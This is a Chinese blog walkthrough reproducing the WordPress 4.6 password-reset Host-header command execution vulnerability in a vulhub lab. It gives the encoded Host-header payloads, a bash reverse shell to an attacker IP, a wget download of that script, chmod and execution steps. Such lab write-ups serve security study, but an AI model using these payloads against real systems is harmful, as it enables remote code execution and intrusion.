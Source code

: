 ```yaml
---
layout: post
title: "WordPress4.6任意命令执行漏洞"
date: "2023-02-02T15:16:57.147Z"
---
```

WordPress4.6任意命令执行漏洞
====================

**前言**
------

WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也算是一个内容管理系统（CMS）

### **环境搭建**

docker环境 （搭建可参考：[https://www.cnblogs.com/BlogVice-2203/p/16977227.html）](https://www.cnblogs.com/BlogVice-2203/p/16977227.html%EF%BC%89)  
靶场在vulhub即可下载  
靶机centos7：192.168.31.230  
攻击机kali: 192.168.31.153

    导入后开启靶场
    docker-compose build
    docker-compose up -d
    
    

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201212713554-1483554326.png)

> 访问http://your-ip:8080/ ，安装cms系统  
> ![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201212838086-1611697698.png)  
> ![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201213304776-43340985.png)

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201213331063-1968346243.png)

### **漏洞复现**

> 漏洞点在忘记密码处，需要一个已知的用户可以发送数据

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201213417054-106583634.png)

    数据包中的Host字段的值修改为以下值，发送数据包，在/tmp下新建一个success文件
    Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
    

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201213755387-1407381003.png)

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201215514650-1090659954.png)

> 紧接着在kali的/var/www/html下新建一个1.txt，写入bash -i >& /dev/tcp/192.168.31.153/5566 0>&1  
> service apache2 start

    发送shell数据包，将1.txt中的内容发送到靶机且新建一个shell文件存储
    /usr/bin/wget --output-document /tmp/shell 192.168.31.153/1.txt
    ${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell${substr{10}{1}{$tod_log}}192.168.31.153${substr{0}{1}{$spool_directory}}1.txt
    

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201223757676-1873629721.png)

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201224056128-1450961014.png)

    发送数据包修改shell权限为777任意执行权限
    ${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}chmod${substr{10}{1}{$tod_log}}777${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell
    

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201224454907-1343818278.png)

    发送数据包执行shell，kali监听5566端口
    ${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell
    

![](https://img2023.cnblogs.com/blog/2913000/202302/2913000-20230201225103784-1651425096.png)

### **漏洞复现总结**

1.该漏洞在数据包的host字段，执行的命令不能有: 、’符号  
2.命令需要绝对路径  
3.空格被\\({substr{10}{1}{\\)tod\_log}}代替 /被\\({substr{0}{1}{\\)spool\_directory}}代替  
4.字段值需要全小写，且需要一个已知的用户

利用这个漏洞，发送反弹shell的文件，修改文件权限777，再用kali监听获取后台

本文来自博客园，作者：[Vice\_2203](https://www.cnblogs.com/BlogVice-2203/)，转载请注明原文链接：[https://www.cnblogs.com/BlogVice-2203/p/17083257.html](https://www.cnblogs.com/BlogVice-2203/p/17083257.html)
